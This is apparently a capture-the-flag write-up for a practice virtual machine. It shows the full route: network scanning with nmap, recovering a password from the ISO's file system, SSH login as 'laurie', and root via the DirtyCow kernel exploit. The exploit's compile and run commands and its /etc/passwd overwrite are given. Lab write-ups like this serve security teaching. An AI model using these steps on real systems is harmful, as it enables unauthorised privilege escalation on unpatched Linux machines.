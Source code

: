 # Writeup 2

First we need to find the IP address of Virtual machine.

For that we use `nmap` package to process the next search:

``` bash
$ nmap 192.168.56.1-255
Starting Nmap 7.91 ( https://nmap.org ) at 2021-01-13 17:56 MSK
Nmap scan report for 192.168.56.102  <== THIS is the IP address we are looking for
Host is up (0.015s latency).
Not shown: 987 filtered ports
PORT    STATE SERVICE
21/tcp  open  ftp
22/tcp  open  ssh
25/tcp  open  smtp
80/tcp  open  http
110/tcp open  pop3
119/tcp open  nntp
143/tcp open  imap
443/tcp open  https
465/tcp open  smtps
563/tcp open  snews
587/tcp open  submission
993/tcp open  imaps
995/tcp open  pop3s

Nmap done: 255 IP addresses (1 host up) scanned in 37.77 seconds
```
Next step we browse the ISO file System.

Among other files ISO contains this `/casper/filesystem.squashfs` which is actually a whole compressed file system.
In order to decompress it we run the command:

``` bash
$ unsquashfs <destination_path> <your_path_to_ISO/casper/filesystem.squashfs>
```

After extracting the file system we see these two files in `/home/lmezard/`:

``` bash
$ ls /home/lmezard
fun  README
```

fun is an archive, unarchive then:

``` bash
$ tar xvf fun ; ls
ft_fun  fun  README
```

ft_fun directory conrtains many many files, written in C with comments containing its serial number.

For combining them together we use our `script.py` and creating new file `script.c`

``` bash
$ gcc script.c 
$ ./a.out 
MY PASSWORD IS: Iheartpwnage
Now SHA-256 it and submit
```
``` bash
$ echo -n Iheartpwnage | sha256sum
330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4
```

Now we are ready to connect via SSH and use the hash above as a password to `laurie` user.

``` bash
$ ssh laurie@192.168.56.102
Password: 330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4
```

For the next step we need to use system vulnerabilities.
The Linux kernel we are work with is:

``` bash
$ uname -r
3.2.0-91-generic-pae
```

``` bash
$ cat /etc/*-release
Ubuntu, 12.04
```

In order to explit it we search this [website](www.exploit-db.com) and find the [next variant](https://www.exploit-db.com/exploits/40839)

This exploit uses the dirtycow vulnerability, which is a computer security vulnerability for the Linux kernel that affected all Linux-based operating systems, including Android devices, that used older versions of the Linux kernel created before 2018. It is a local privilege escalation bug that exploits a race condition in the implementation of the copy-on-write mechanism in the kernel's memory-management subsystem. Computers and devices that still use the older kernels remain vulnerable.



After compiling and running the program the user will be prompted for the new password.

Then this exploit back up the /etc/passwd file to /tmp/passwd.bak and overwrites the root account with the generated line.

After running the exploit you should be able to login with the newly created user, whiср name is "firefart" by default, and use this exploit to modify the user values according to your needs.

Compile the file
``` bash
$ gcc -pthread dirty.c -o dirty -lcrypt
```
Run the script with your new password
``` bash
$ ./dirty <my-new-password>
```
Log in to the root user named firefart
``` bash
$ su firefart
```

Enter your new password password
